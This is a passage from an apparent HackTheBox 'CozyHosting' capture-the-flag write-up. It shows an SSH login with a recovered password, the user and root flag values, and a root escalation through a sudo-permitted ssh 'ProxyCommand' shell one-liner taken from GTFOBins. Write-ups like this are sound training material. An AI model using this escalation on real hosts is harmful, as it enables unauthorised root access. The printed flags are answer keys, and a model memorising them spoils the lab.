 There's a password, `manchesterunited`, I use it to SSH into the user `josh`.

```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...
josh@cozyhosting:~$ cat user.txt
e1d078c09c4e025113ee74b108f407ec
```

And there's the user flag! <mark>e1d078c09c4e025113ee74b108f407ec</mark>

## Root Flag

Running `sudo -l` gives us an entry:

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Looking at [ssh entries on GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) gives us an entry for sudo permissions.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
55d1af421b8828f1c8c1ccacb64347bb
```

The root flag is: <mark>55d1af421b8828f1c8c1ccacb64347bb</mark>

Success!

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).